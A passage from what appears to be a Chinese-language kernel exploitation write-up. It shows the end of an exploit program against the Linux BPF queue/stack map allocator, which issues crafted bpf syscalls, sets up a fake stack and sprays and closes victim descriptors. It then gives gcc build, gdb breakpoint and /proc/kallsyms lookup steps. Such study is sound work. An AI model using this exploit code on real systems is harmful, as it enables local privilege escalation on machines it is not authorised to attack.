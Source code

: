 ```
  *(uint64_t*)0x200000c8 = 0;
  *(uint64_t*)0x200000d0 = 0x20000140;
  *(uint64_t*)0x200000d8 = 2;
  uint64_t* ptr = (uint64_t*)0x20000140;
  ptr[0]=1;
  ptr[1]=2;
  ptr[2]=3;
  ptr[3]=4;
  ptr[4]=5;
  ptr[5]=6;
  ptr[6]=0xa000000000;
  ptr[7]=8;
  syscall(__NR_bpf, 2, 0x200000c0, 0x20);
  int i;
  *(unsigned long*)(fakestack+0x7000) = 0;
  *(unsigned long*)(fakestack+0x6000) = 0;
  *(unsigned long*)(fakestack+0x5000) = 0;
  for(i=0;i<SPRAY_NUMBER;i++){
      close(victim[i]);
  }
  return 0;
}
```
编译
```
gcc exp.c -o exp -static -w
```

#### 开始调试
```
gdb -q ./vmlinux
target remote :1234
b blkdev_write_iter
b *0xffffffff811af0d7
```
查看各个函数的地址
```
/ # cat /proc/kallsyms | grep map_create
ffffffff8119d0d0 t map_create
ffffffff817e7a20 T md_bitmap_create
/ # cat /proc/kallsyms | grep queue_stack_map_alloc
ffffffff811aedd0 t queue_stack_map_alloc_check
ffffffff811af0b0 t queue_stack_map_alloc

```

